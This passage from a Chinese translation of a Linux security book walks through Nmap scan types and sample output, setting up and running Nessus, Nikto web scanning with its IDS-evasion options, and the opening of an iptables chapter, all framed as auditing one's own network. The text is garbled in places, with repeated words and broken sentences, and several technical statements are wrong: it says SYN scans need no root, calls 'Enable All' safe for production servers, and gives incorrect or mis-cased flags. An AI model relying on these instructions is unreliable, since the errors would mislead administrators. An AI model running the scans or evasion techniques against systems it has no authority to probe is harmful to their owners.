- `TCP` `SYN` 扫描 (`-sS`)：最流行的选项，半开放扫描。它不需要 `root` 权限，因为它不完成握手。
- 隐蔽 `Fin`、`Xmas`、`Null` 扫描 (`-sF`, `-sX`, `-sN`)：这三种方法依赖于关闭的端口应该响应 `RST` 包。`Windows`（以及某些 `HP-UX`、`IRIX` 和 `BSD`）机器忽略此。

- `Ping` 扫描 (`-SP`)：执行 `ping` 以发现主机是否在线。标准的 `ping` 方式是通过 `ICMP` `ECHO` 请求，由于 `DoS` 攻击的威胁，许多站点选择不回复。
- `UDP` 扫描 (`-SU`)：到目前，所有的扫描选项都是基于 `TCP` 的，但 `Nmap` 同样执行经常被忽视的 `UDP` 扫描。
- `RPC` 扫描 (`-sR`)：与其他扫描结合使用，该方法尝试发现任何开放端口上是否运行了 `RPC` 服务。
- 版本扫描 (`-sV`)：同样与其他扫描结合使用，版本扫描尝试识别运行在开放端口的服务（及其版本）。

- 不 `ping` (`-PO`)：不对远程主机进行 `ping`。通常 `Nmap` 会忽略不响应 `ping` 的主机，但使用此选项允许它在主机看起来不存在时进行扫描。
- 反向 `Ident` 扫描 (`-I`)：如果目标运行 `Ident` 守护进程（端口 113），`Nmap` 将查询它以尝试找到拥有开放端口服务的用户名。此功能需要全扫描 (`-sT`)。

# Nmap 实例

本节提供了一些 `Nmap` 的用法示例。由于我们扫描的是自己的系统，并且不在乎扫描产生多少噪音，我们大多数时间将使用全连接扫描（这还允许我们进行版本扫描）。此外，`LAN` 速度相对较快，我们可以负担得起扫描的代价

# 评估网络

扫描每个端口。提醒一下，我们使用 `$` 提示符表示命令正以非特权用户执行，使用 `#` 提示符表示正在以 `root` 身份运行。

### TCP 扫描

在以下示例中，使用 `Nmap` 对一台机器的全端口范围（1 到 65,535）进行 `TCP` `connect()` 扫描。`-sv` 选项用于发现正在运行的服务版本，而 `-I` 则列出服务的数字 `ID`。

```
$ nmap -sV -I 192.168.0.2 -p 1-65535
```


# 142 Linux 网络安全

## 端口扫描与服务识别

正在启动 `nmap 3.50` (`http://www.insecure.org/nmap/`)。

`zeus.zeus` (192.168.0.2) 上有趣的端口：
（扫描的 65486 个端口未在下方列出，其状态为：closed）

| PORT | STATE | SERVICE | VERSION |
| :--- | :--- | :--- | :--- |
| 21/tcp | open | ftp | 0 | ProFTPD 1.2.8 |
| 22/tcp | open | ssh | 0 | OpenSSH 3.5p1 (protocol 1.99) |
| 25/tcp | open | smtp | 0 | Sendmail 8.12.8/8.12.8 |
| 37/tcp | open | time | | 0 |
| 60/tcp | open | unknown | | 0 |
| 79/tcp | open | finger | | Linux finger |
| 111/tcp | open | rpcbind (rpcbind v2) | 32 | 2 (rpc #100000) |
| 113/tcp | open | ident | 99 | OpenBSD identd |
| 515/tcp | open | printer | 4 | |
| 587/tcp | open | smtp | | Sendmail 8.12.8/8.12.8 |
| 6000/tcp | open | X11 | 0 (access denied) | |

1 个无法识别的服务返回数据。如果您知道该服务/版本，请在 `http://www.insecure.org/cgi/servicefp-submit.cgi` 提交以下指纹：

```
SF-Port60-TCP:V=3.50%D=4/20%Time=40845D60%r=i686-pc-linux-gnu%r
(NULL,28,"s
SF:\x20/bin/sh:\x20cannotexecute\x20binary\x20file\x20")
```

`Nmap` 运行完成 - 在 424.793 秒内扫描了 1 个 `IP` 地址 (1 台主机在线)。

记住，`SERVICE` 列仅显示与特定端口通常关联的服务（在 `/etc/services` 中定义）——这并不意味着该端口上实际运行的就是它。要找到正在监听的服务，我们需要更深入一点。让我们来看一个示例——似乎运行在端口 515 上的打印机服务。

使用 `-ln` 选项，`netstat` 仅显示监听端口 (`-l`)，使用数字地址 (`-n`)，并显示拥有套接字的程序 (`-p`)。输出通过管道传递给 `grep`，以便仅显示运行在端口 515 进程。

```
# netstat -lnp | grep ":515"

tcp 0 0 0.0.0.0:515 0.0.0.0:* LISTEN 413/lpd Waiting
```

输出显示一个名为 `lpd` 的程序（`PID` 为 413）正在监听。我们预计它是线路打印机守护进程（Line Printer Daemon），但目前无法确定。我们只知道是一个名为 `lpd` 的程序。

使用 `-p` 选项，`lsof`（列出打开的文件）显示指定进程使用的文件：

```
# lsof -p 413

COMMAND PID USER FD DEVICE SIZE NAME

lpd 413 lp cwd 3,2 4096 2 /

lpd 413 lp rtd 3,2 4096 2 /

lpd 413 lp txt REG 3,2 212783 /usr/sbin/lpd

/lib/ld-2.3.1.so

lpd 413 lp mem REG 3,2 672140 65474

/usr/lib/libpr.so.0.0

lpd 413 lp mem REG 3,2 196592 163682

/usr/lib/libssl.so.0.9.7

lpd 413 lp mem REG 3,2 1026744 163683

/usr/lib/libcrypto.so.0.9.7

lpd 413 lp mem REG 3,2 1435624 654750

/lib/libc-2.3.1.so

lpd 413 lp mem REG 3,2 11812 654752

/lib/libld-2.3.1.so

lpd 413 lp mem REG 3,2 43673 654758

/usr/lib/libnss_files.2.3.1.so

lpd 413 lp mem REG 3,2 49939 654756

/usr/lib/libnss_compat-2.3.1.so

lpd 413 lp mem REG 3,2 87653 654755

/lib/libnsl-2.3.1.so
```

## 扫描性能分析

`Nmap` 执行完成 -- 扫描了 1 个 `IP` 地址（1 个主机），耗时 65599.56 秒

如你所见，扫描花费了超过 65,599 秒——多于 18 小时——平均每个端口约 1 秒。这与限制 `ICMP` 回复为每秒一次的系统是一致。下面的 `tcpdump` 输出显示了探测三个 `UDP` 端口时请求的响应：

```
192.168.10.61901 > 192.168.10.1.10691: udp 0

192.168.10.1 > 192.168.10.10: icmp: 192.168.10.1 \
port 10691 unreachable [tos 0xc0]

192.168.10.61901 > 192.168.10.1.51080: udp 0

192.168.10.1 > 192.168.10.10: icmp: 192.168.10.1 \
port 51080 unreachable [tos 0xc0]

192.168.10.61901 > 192.168.10.1.4730: udp 0

192.168.10.1 > 192.168.10.10: icmp: 192.168.10.1 \
port 4730 unreachable [tos 0xc0]
```

在执行 `UDP` 扫描时（但也适用于其他扫描类型），`-T` 参数非常有用，它控制扫描的激进程度。定义了六种预设：`Paranoid`（偏执）、`Sneaky`（狡猾）、`Polite`（礼貌）、`Normal`（正常）、`Aggressive`（激进）和 `Insane`（狂暴）；通过降低 `UDP` 扫描等级（例如 `nmap -T Polite`），你可以获得更准确的结果。

### Ping 扫描

`Nmap` 的第三种模式是“ping”主机以确定它们是否存活。由于（如前提到的）许多主机会忽略 `ICMP` 回显请求，`Nmap` 还会向 80 端口（默认）发送一个 `ACK` 包。如果响应中生成了 `RST`，则目标主机在线。你可以通过在对远程主机进行 ping 扫描期间观察 `tcpdump` 输出看到这种组合方法：

```
192.168.10.10 > 192.168.10.1: icmp: echo request

192.168.10.1 > 192.168.10.10: icmp: echo reply

192.168.10.41494 > 192.168.10.1.http: ack 2192478430 win 1024

192.168.10.1.http > 192.168.10.41494: R \
2192478430:2192478430) win 0 (DF)
```

这种主机发现方法并非万无一失。除了忽略 `ICMP` ping 之外，许多主机可能对 `TCP` 80 端口设置了防火墙，且状态防火墙会丢弃未请求的 `ACK` 包，因为它不是已建立连接的一部分。对于状态防火墙，你可以尝试通过向 ping 发送 `SYN` 包来绕过这个问题，使用 `-PS`：

```
# nmap -sP -PS 10.1.4.200
```

你也可以通过以下方式更改被 ping 的端口：

```
# nmap -sP -PS22 10.1.4.200
```

这指示 `Nmap` 向 `TCP` 端口 22 发送 包（通常用于 `SSH`）。因为你无法预先知道主机开放了哪些端口，必须猜测；使用常用端口如 21、22、25 和 53。Ping 扫描作为获取网络主机列表的方法特别有用，可以让你查看（可能未经授权的）机器是否连接。除了 `ICMP` 回显请求外，`Nmap` 还允许使用另外两种类型的消息进行 ping：`ICMP` 时间戳请求 (`-PP`) 和 `ICMP` 地址请求 (`-PR`)。注意，即使这些 `ICMP` 消息到达目标主机，并不是每个操作系统都会生成响应。由于 `Nmap` 在执行端口扫描之前会对远程系统进行 ping，这里的方法也适用于通用场景。ping 扫描最重要的用途是扫描整个网络。这可以通过通配符或逗号分隔每个主机来实现。以下示例 ping 了 `10.0.0.0` 到 `10.0.0.255`：

```
# nmap -sP 10.0.0.0
```


### 远程主机识别

Nmap 的某些功能技术上并不是端口扫描，而是远程主机识别（通常称为 `TCP` 指纹识别）和枚举。虽然 `TCP/IP` 是一个定义的标准，但具体细节因厂商而异，通过探测端口并检查生成的任何包可以学习到许多信息。Nmap 使用的一些技术包括：

- **`TCP` 初始窗口大小**：每个包包含一个“通告窗口”（`advertised window`）字段，指定发送者在没有确认的情况下愿意接受多少数据。窗口大小在活动 `TCP` 连接期间变化，是流量控制的重要部分，但初始窗口大小取决于操作系统/版本。例如，`Microsoft Windows 2000` 的初始窗口大小为 `8760`，而 `Windows 2000 RC1–RC3` 为 `16616`。
- **不分片 (Don't Fragment)**：某些操作系统在其发送的包上设置不分片位（这提供了性能优势）；其他则没有。
- **`TTL` 值**：生存时间（`Time Live`）值用于防止包陷入无限路由循环。数据路径上的每个路由器都会将该值减 `1`；如果变为零，包会被丢弃。`Linux` 通常使用 `TTL 255`；某些 `FreeBSD` 版本使用 `TTL 100`。

Nmap 并不是第一个引入 `TCP` 指纹识别的工具，但由于用户贡献了已知系统的指纹，它无疑是最好的。除了尝试确定操作系统和版本外，通过 `-O` 标志启用主机识别还可以启用以下测试：

- **运行时间预测**：使用 `TCP` 时间戳选项估计机器最后一次重启的时间。并不是所有操作系统都提供 `TCP` 时间戳，但 `Linux` 是。
- **序列号分析**：如你所见，序列号预测是 `TCP` 连接欺骗的关键部分。Nmap 将主机序列号的可预测性分为从“微不足道的玩笑”到“真正随机”的类别。

让我们看看 Nmap 主机识别的操作：

```bash
root@zeus:/home/pete# nmap -O -v 192.168.0.1
```

### 评估网络

```text
Starting nmap 3.50 ( http://www.insecure.org/nmap/ )
Host 192.168.0.1 appears to be up ... good.
Initiating SYN Stealth Scan against 192.168.0.1 at 12:28
Adding open port 22/tcp

The SYN Stealth Scan took 1 to scan 1659 ports.
For OSScan, 假设端口 22 开放且端口 1 关闭，且都不是防火墙。
192.168.0.1 上的有趣端口：
(已扫描但未显示的 1657 个端口状态为：(closed)

Nmap 执行完成 - 扫描了 1 个 IP 地址（1 个主机在线），耗时 5.180 秒
```

```bash
root@zeus:/root# ssh 192.168.0.1 'uname -a; uptime'

Password: *****

Linux apollo 2.4.21 #3 Fri Nov 14 00:01:36 UTC 2003 i686 i686

i386 GNU/Linux

0 users, load average: 0.00, 0.00, 0.00

4:36am up 17:05,
```

## 4.2 使用 `NESSUS` 进行漏洞审计

尽管 Nmap 在端口扫描方面非常擅长，但它实际上无法告诉你某个服务是否是安全漏洞。为此，你需要一个记录了数千种不同漏洞的数据库，以及受影响的操作系统和守护进程版本。这正是 `Nessus` 所做的。然而，`Nessus` 不仅仅是一个数据库，它智能智能器，可以识别运行在非标准端口上的服务，并且不相信 `banner` 中报告的守护进程版本。`Nessus` 还具有用于漏洞测试的插件架构，这意味着可以轻松添加新测试，而无需升级扫描器。

### 安装 `Nessus`


`Nessus` 套件由以下四个文件组成，可以从 `Nessus` 网站获取，并包含在附带的 `CD-ROM` 中。

- `nessus-libraries`
- `libnasl`
- `nessus-core`
- `nessus-plugins`

安装每个文件只需简单的 `./configure; make;` 和 `make install;`，但请注意必须按照给定的顺序安装这四个组件。如果你尝试在没有 `X11` 的系统上安装 `Nessus`，可以在配置 `nessus-core` 时使用 `--disable-gtk` 选项创建一个命令行客户端：

```bash
cd nessus-core
./configure --disable-gtk
make
make install
```

安装完成后，你需要向 `Nessus` 数据库添加一个用户以使用它。这是通过 `nessus-adduser` 程序完成的。

```bash
nessus-adduser
Using /var/tmp as a temporary file holder
```


```bash
# Add new nessusd user
nessus-adduser nessusd
```

## 评估网络 147

登录 : `admin`
认证 (密码/证书) [pass] :
登录密码 : `********`

### 用户规则

`nessusd` 拥有一套规则系统，允许你限制 `admin` 有权测试的主机。例如，你可能希望他只能扫描自己的主机。

请参阅 `nessus-adduser(8)` 手册页了解规则语法

输入此用户的规则，并在完成后按 `Ctrl+D`：
（用户可以有一个空规则集）

登录 : `admin`
密码 : `********`
DN :
Rules :

这样可以吗？(y/n) [y]
用户已添加。

`Nessus` 使用客户端/服务器架构，允许网络上的用户登录守护进程并进行安全审计；然而，最常见的场景是客户端和服务器运行在同一系统上。`Nessus` 守护进程通过命令 `nessusd`（以 `root` 身份）启动。该进程支持以下选项：

- `-a <address>`: 只在指定的 IP 地址上监听连接。如果运行 `Nessus` 守护进程的具有多个接口，或者你想通过指定 `127.0.0.1` 为地址来完全禁用远程访问，则非常有用。

- `-p <port number>`: 守护进程应该监听的 TCP 端口。默认是 `1241`。

- `-D`: 将守护进程放入后台。或者可以使用 `&` 符号来实现：`nessusd &`

### 客户端功能

一旦守护进程运行，你可以通过命令 `nessus` 启动 `Nessus` 客户端，并使用 `nessus-adduser` 创建的用户名和密码登录。我们假设你使用的是图形客户端。

### 插件

图 4.1 显示的 `Plugins` 标签让你对扫描中的漏洞测试进行细粒控制。除非为了提高速度需要限制扫描，否则你可能认为简单选择 `Enable All` 是最好的。但请记住，这包含了一些可能会导致被探测系统崩溃的检查；对于生产服务器，`Enable All` 是安全的选项。如果可能，安排时间运行完整扫描。



图 4.1 `Plugins` 标签。

### 插件设置

图 4.2 显示的 `Plugins Preferences` 菜单对扫描的几乎每个方面提供了控制。`Nessus` 使用 `Nmap` 进行端口扫描，因此第一个选择是扫描模式和端口范围。如果你读过关于 `Nmap` 的前面的章节，这些对你应该是熟悉的。



图 4.2 `Plugins Preferences` 标签。

`Plugin Preferences` 有大量空间用于配置 `HTTP` 探测，我们在稍后介绍专门的 `Web` 扫描器 `Nikto` 时主题。目前，默认值应该足够，类似于 `Nessus` 客户端的“登录”部分。

# Linux 网络安全

`Plugin Preferences` 标签的最后部分值得注意的是暴力破解攻击。虽然过滤掉弱密码很有用，但它们会显著增加扫描长度。`Telnet`、`FTP`、`POP3` 和 `IMAP`（互联网消息协议）等服务通常通过 `/etc/passwd` 验证用户，因此如果你对扫描的系统有 `root` 权限，使用 `John The Ripper` 等工具破解此文件比使用 `Nessus` 暴力破解更快。同样也适用于 `ICQ`。

### 目标选择

可以为 `Nessus` 指定一个或多个目标：在 `Target Selection` 标签的 `Target(s)` 框中提供逗号分隔的列表，或者从外部文件读取。当扫描多个目标时，后者最为有用。

`targets` 文件是一个简单的文本文件，每行一个主机。为了节省输入每个地址，可以使用以下 `Perl` 脚本从 `Nmap` `ping` 扫描中过滤出监听主机：

```perl
#!/usr/bin/perl

while (<STDIN>) {
    print $1, "\n" if /^Host (.*)/
}
```

要使用它，将 `Nmap` 的输出管道给脚本，并将脚本的输出重定向到文件：

```bash
# nmap -sP 192.168.0.* | filter.pl > nessus.hosts

192.168.0.1
192.168.0.2
192.168.0.5
192.168.0.10
192.168.0.12
192.168.0.15
```


请注意，此 Nmap ping 扫描检测不到被防火墙拦截的主机。

### 查看 Nessus 操作

扫描时间取决于目标主机数量、扫描类型、网络状况和插件数量；100 mb LAN 上单个主机平均约为 5 分钟。UDP 扫描慢得多——即使在 LAN 上，如果指定了端口范围（`1` 到 `65535`），可能需要几个小时。

扫描完成后，会生成报告屏幕（见图 4.3）。普通警告显示为三角形内的感叹号，严重警告显示为红色圆圈内的线条，普通信息显示为灯泡。如你所示，该主机在被认为安全之前还需要大量工作。



图 4.3 Nessus 为每个主机生成报告。

Nessus 的最佳功能之一是它不仅提供了有关漏洞的信息，还提供了如何修复它。图中显示的 `BID` 值指的是漏洞的 Bugtraq ID——这是一个可以通过以下网址访问的在线数据库：

`http://www.securityfocus.com/bid/bugtraqid/`

最后，Nessus 提供了多种格式来保存报告，从 ASCII 文本到带有饼图（见图 4.4）的 HTML，显示扫描主机的统计数据——用于制作演示文稿。



根据版本号，远程 `sendmail` 可能存在远程缓冲区溢漏洞，允许远程用户获得 `root` 权限。

`Sendmail` 版本 `5.79` 到 `8.12.9get`。解决方案：升级到 `Sendmail` 版本 `8.12.10`。
另见：`http://www.netsys.com/breach/full-disclosure/2003-September-010287.html`

图 4.4 Nessus 生成的 HTML 报告。

在第 6 章“基础系统安全措施”和第 10 章“服务安全”中，我们将研究如何关闭 Nessus 发现的许多漏洞。但请记住，对于许多安全警告（而非安全漏洞），修复问题既不可行也不理想，因为它可能会对服务器的运行产生不利影响。

## 4.3 使用 NIKTO 进行网站审计

Web 服务器是最经常被利用的服务之一，这部分是由于其配置潜在的复杂性，部分也因为它们通常使用了大量的第三方脚本。虽然 Apache 服务器的安全性记录相当不错，但许多 CGI（通用网关接口）脚本并非如此。因此，本章最后将介绍一种针对 Web 服务器的专用漏洞扫描器。对于几乎每种流行的服务（如 MySQL、Sendmail 和 FTP），也都提供了专用的扫描器，在本章的末尾可以找到此类工具的链接列表。

`Nikto` 是一个令人印象深刻的 Web 服务器扫描器，它在 `625` 台服务器上测试了超过 `2,600` 个漏洞，对于任何网站管理员来说，它都是一个重要的工具。基于流行的 `Whiskers` 扫描器，`Nikto` 仍然使用 `LibWhiskers` Perl 模块；尽管 `Whiskers` 现在已经废弃，但 `Nikto` 仍在蓬勃发展。其功能包括：

- 插件支持，允许用户添加自定义扫描
- 用户名猜测
- IDS（入侵检测系统）规避
- SSL（安全套接层）支持
- 代理支持
- 输出纯文本、HTML 或 CSV（逗号分隔值）
- 在非标准端口上定位 Web 服务器
- 大量的漏洞检查

`Nikto` 需要两个 Perl 模块：`NET::ssl`（反过来需要 OpenSSL）和 `LibWhiskers`，分别从 `http://cpan.org` 和 `http://www.wiuretrip.net/rfpl/` 获取。`Nikto` 可以在 `http://www.circ.net/code/nikto.shtml` ，`Nikto` 和 `LibWhiskers` 也包含在附的 CD-ROM 中。


### Options

`Nikto` 最有趣的功能之一是它的 IDS（入侵检测系统）规避技术，这些技术可以用于执行更隐蔽的扫描，可能不会被许多 IDS 检测。这是此类工具（包括 `Nmap` 和 `Nessus`）的共同特征，你应该关注此功能，因为它可能允许攻击者在不被发现的情况下扫描你的网络。

在命令行中使用 `-o` 标志可以可选的 IDS 选项有：

- 随机 URL 编码（非UTF8）。
- 添加目录自引用 `//`
- 提前结束 URL。
- 在请求前添加长随机字符串。
- 为文件添加伪造参数。
- 使用 TAB 键作为请求分隔符，而不是空格。
- 随机大小写敏感。
- 使用 Windows 目录分隔符 `\` 代替 `/`。

多个选项可以组合使用，因此 `-e 25` 意味着启用方法 `2` 和方法 `5`。其他值得注意的选项包括：

- `-Cgidirs` 手动指定 cgi-bin 目录。
- `-cookies` 打印扫描期间收到的任何 cookie。
- `-generic` 强制进行完整扫描，而不是信任 HTTP 头部响应。

### Usage

以下显示了 `Nikto` 在内部 Web 服务器上的运行情况。（为了简洁，输出已略微截断）。

```
$ /nikto.pl -h hermes.lan

- Nikto 3.3.2/19 - www.cirt.net

+ Target IP: 192.168.7.1

+ Target Hostname: hermes.lan

+ Target Port: 80

+ Start Time: Wed Apr 21 13:43:48 2004
```

- 扫描依赖于 `'Server'` 字符串，该字符串可以伪造，使用 `-g` 进行覆盖
+ `Server`: `Apache/1.3.27 (Unix) (Red-Hat/Linux) PHP/4.3.2`
+ `Server` 在响应错误消息时不返回 `'404'`（使用 `'302'`）。
+ 这可能会增加误报率。
- 未找到的文件重定向到：`http://hermes.lan/err404.html`
+ 所有 CGI 目录“找到”，使用 `'-C none'` 测试
+ `Apache/1.3.27` 似乎已过时（至少是 `Apache/2.0.47`）。`1.3.28` 仍在维护中并被认为是安全的。
+ `PHP/4.3.2` 似乎已过时（至少是 `4.3.4RC2`）。
+ `PHP/4.3.2` - 低于 `4.3.3` 的可能允许本地攻击者进入安全模式并访问未授权的文件。`8203`。

+ `Apache/1.3.27` - Windows 和 OS/2 版本易受到远程攻击。`CAN-2003-0460`
+ `/root` - 通过请求 `-username` 可以枚举用户（对真实用户返回 Forbidden，对不存在的用户返回 not found）。
+ `/catinfoxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` - 重定向到 `http://hermes.lan/err404.html`，Interscan Viruswall CGI 可能会受到缓冲区溢出攻击。`CAN-2001-0432`。
+ `/OS_Store` - 重定向到 `http://hermes.lan/err404.html`，OS Apache 将提供包含敏感文件的。配置 Apache 忽略此文件或更新到新版本。
+ `.FBCIndex` - 重定向到 `http://hermes.lan/err404.html` 该关于安全的漏洞漏洞漏洞漏洞。

虽然这仅仅是“通过隐蔽实现安全”，但你通过不为目录使用常用名称以及隐藏 Apache 版本号，可以稍微提高隐私性。你将在第 10 章中学习如何做到这一点。

### 批量扫描

如果提供了 `-h` 选项，`Nikto` 会尝试从给定的文件中读取主机/端口组合进行扫描，例如：

```
$ ./nikto -h targets.txt
```

主机文件的格式为 `Host:Port`，如果未指定端口，则默认端口为 `80`，例如：

```
192.168.0.2:80
192.168.0.2:443
192.168.2.30:8000
```


### 配置

除了支持一系列命令行选项外，`Nikto` 还使用一个名为 `config.txt` 的配置文件。该文件有详尽的注释，默认设置对于大多数用户来说足够了；但是，你应该考虑以下几个选项：

- `CGIDIRS`: 一个由空格分隔的目录列表，用于搜索 CGI 文件。如果你使用了此行未列出的 CGI 目录，请将它们添加。不要认为使用非标准的目录名称会阻止攻击者发现它们。
- `ADMINDIR`: 同样，你应该添加任何未提到的管理员目录，以增加扫描的彻底性。
- `USERS`: 在尝试枚举用户主目录，或到达网站的受密码保护的区域时使用的用户名。为了提高精度，请在此处填充来自 `/etc/passwd` 的账户名。

## 总结

本章介绍了目前三个最流行的开源安全审计工具。你应该已经很好地理解这些工具是如何工作的，以及为什么对你的网络进行审计如此重要。扫描结果可能会让你感到惊讶。Linux 发行版默认开启广泛服务的情况并不罕见，你可能发现了一些你之前并不知道它们正在运行、也许你并不希望它们运行的服务。在第 6 章中，我们将讨论如何禁用此类不需要的服务。

这些工具仅代表了许多类似应用中的少数几个，其中许多应用侧重于特定的服务或协议。你们最流行的包括：

- `Kismet` (http://www.kismetwireless.net/): 一个强大的无线网络嗅探器。
- `SARA` (http://www-arc.com/sara/): 基于（臭名昭著的）`SATAN` 扫描器，`SARA` 是一个通用漏洞扫描器，定期更新以包含新的漏洞。
- `Firewall` (http://www.packetfactory.net/projects/firewall/): 一个远程防火墙分析工具，尝试推断防火墙上存在的数据过滤规则，并映射防火墙背后的网络。

`Nmap` 的 `Fyodor` 定期对 `Nmap` 邮件列表的读者进行调查，请他们投票选择喜爱的安全评估工具。该列表可以作为黑客和破解者最常用工具的有用参考，可以在 http://www.insecure.org/tools.html 获取。

最后，请记住，安全审计应该是一个持续的过程，而不是一次性的工作；你应该定期对你的网络进行端口扫描（每周一次应该足够了）。如果你保存了这些扫描（任务）的输出，将很容易发现任何异常。这不仅能帮助你看到任何被错误启用/禁用的服务，也是发现被攻破系统的好方法，因为许多破解者会安装带有后门的服务以便重新进入系统。

# 注脚

- 1. 在数据包过滤防火墙中拒绝（`rejecting`）”和“丢弃（`dropping`）”有特定的含义。拒绝意味着向发送者发送一个 `RST`，指示端口已关闭；而丢弃意味着入站的 `SYN`（在 `SYN` 扫描的情况下）被静默丢弃，不向发送者发送任何响应。
- 2. 这很大程度上取决于发现了哪些运行的服务以及目标机器上的系统资源。通过练习，你可能会发现……

## 参考文献

- 1. `[Fyodor04]` `Fyodor`, “`Nmap` 版本扫描”。见 http://www.insecure.org/versionscan.html
- 2. `[Fyodor98]` `Fyodor`, “通过 `TCP/IP` 栈指纹识别”。见 http://www.insecure.org/fingerprinting.html
- 3. `[SATAN]` 基于（臭名昭著的）`SATAN` 扫描器，`SARA` 是一个通用漏洞扫描器，定期更新以包含新的漏洞。见 http://www-arc.com/sara/
- 4. `[Wolfgang02]` `Wolfgang`, “主机发现”。见 http://moonpie.org/writings/discovery.pdf

# 5 使用 Iptables 进行数据过滤

- `Iptables` 的组件
- 创建规则集
- 防火墙管理：处理地址

数据包过滤简单来说就是分析数据包，将其与规则进行对比，并由此决定数据包的命运。最常见的是对头部中的字段（如源端口、目的端口）进行匹配，`Iptables` 还包含了匹配数据（如 `MAC` 地址）的模块。部署在防火墙上，这提供了一种强大且灵活的控制方法。

`Iptables` 不在应用层运行；它只能根据头部做出判断。遗憾的是，我们往往根据头部做出假设：源端口为 53 的 `UDP` 包认为来自 `DNS` 服务器，而源端口 80 的 `TCP` 包认为来自 `Web` 服务器。然而，事实并非如此，熟练的破解者可能会通过生成此类端口的恶意包来绕过防火墙规则。在本章后面你将看到如何解决这个问题。

过滤包的最常见原因是保护 `LAN` 不受外部攻击，但保护外部不受内部攻击同样重要。攻击者的共同动机是发动攻击和其他恶意活动。作为网络管理员，你的职责是确保你的网络不会成为攻击的参与者。当然，并非所有攻击都来自外部，取决于你对员工的信任程度，内部威胁可能高于外部。如果使用当，数据包过滤有助于减少攻击者造成的损害；而且通过其日志机制——甚至可能帮你抓住他。

除了阻止攻击，`Iptables` 还可以通过许多方式在更广泛范围内提高安全性：

- 禁止员工在工作时间访问不当网站
- 防止员工使用网络应用程序（如即时消息、`IRC`、`P2P` 客户端）
- 浏览时拦截横幅广告 `Cookie`

对 `Iptables` 提供的任何数据包匹配功能记录日志，这是监控 `LAN` 内在做什么的极佳方法。我们将在本章后面详细介绍这些内容。

本章从对 `Iptables` 语法的广泛讨论开始，涵盖了该工具支持的大量选项。你不需要记忆所有选项的语法，但至少应该了解它们。在接下来的节中，我们将看看使用 `Iptables` 保护网络更实用的任务，涵盖过滤服务、限制 `ICMP`（互联网控制

## 使用 Iptables 进行包过滤

（消息协议）速率，并对某些协议进行考虑。本章最后以防火墙管理结束，涵盖了如处理动态 `IP` 地址以及 `Iptables` 的图形界面管理工具等主题。

## 5.1 IPTABLES 规则的组成

在看了与 `Iptables` 框架结构相关的问题之后，现在是时候检查用于 `iptables` 命令构建规则的语法和选项了。由于第 2 章“理解问题”介绍了添加、删除、列出和替换链以及链内规则的基本语法，如果你忘记了，我们建议简要回顾一下。在本章中，我们将讨论数据包匹配的规则。在接后的示例中，我们使用完整的规则来说明某个选项，但规则的其他部分通常是无关紧要的；因此在示例中

```
iptables -A INPUT -s 1.2.3.4 -j DROP
```

我们并不是说 `-s` 选项（匹配源地址）必须在 `INPUT` 表上使用，或者配合 `DROP` 目标使用。我们认为这比通用语法更清晰地说明用法：

```
iptables [-t <TABLE>] [-A|-D|-X] <chain> -s 1.2.3.4 [-j <TARGET>]
```

